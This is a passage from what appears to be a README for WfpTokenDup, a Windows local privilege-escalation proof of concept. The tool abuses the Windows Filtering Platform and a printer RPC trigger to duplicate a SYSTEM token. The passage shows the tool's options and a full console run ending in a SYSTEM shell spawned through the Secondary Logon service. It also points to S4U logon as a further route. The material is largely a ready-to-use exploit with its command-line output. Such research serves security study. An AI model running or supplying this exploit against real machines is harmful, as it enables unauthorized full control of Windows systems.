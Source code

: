 In summary, this approach uses the Windows Filtering Platform (WFP) functionality to achieve Token Duplication.

```
PS C:\Dev> .\WfpTokenDup.exe -h

WfpTokenDup - PoC for token stealing with Windows Filtering Platform.

Usage: WfpTokenDup.exe [Options]

        -h, --help   : Displays this help message.
        -S, --system : Flag to get SYSTEM shell.
        -p, --pid    : Specifies PID to duplicate token handle in decimal format.
        -v, --value  : Specifies handle value to duplicate token handle in hex format.
```

To get SYSTEM privilege, simply set `-S` flag:

```
PS C:\Dev> .\WfpTokenDup.exe -S

[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x2FC).
[>] Trying to get WFP engine handle.
[+] Got a WFP engine handle (hanlde = 0x1AB7DCF8AF0).
[>] Installing new IPSec policy.
[+] New IPSec policy is installed (GUID: 57f77e37-2cc3-49db-b462-728702621fed)
[>] Triggering printer.
[*] RPC_STATUS is 0x00000709.
[>] Trying to find SYSTEM token.
[+] Got a SYSTEM token (handle = 0x328).
    [*] Modified ID : 0x000000000000001C
[>] Uninstalling IPSec policy.
[+] IPSec policy is uninstalled successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```

This PoC uses Secondaly Logon service, so SYSTEM shell will be spawned with other console as following figure.
Duplicated token has SeTcbPrivilege, so we can get shell in same console with S4U logon technique, but I don't implement it currently.
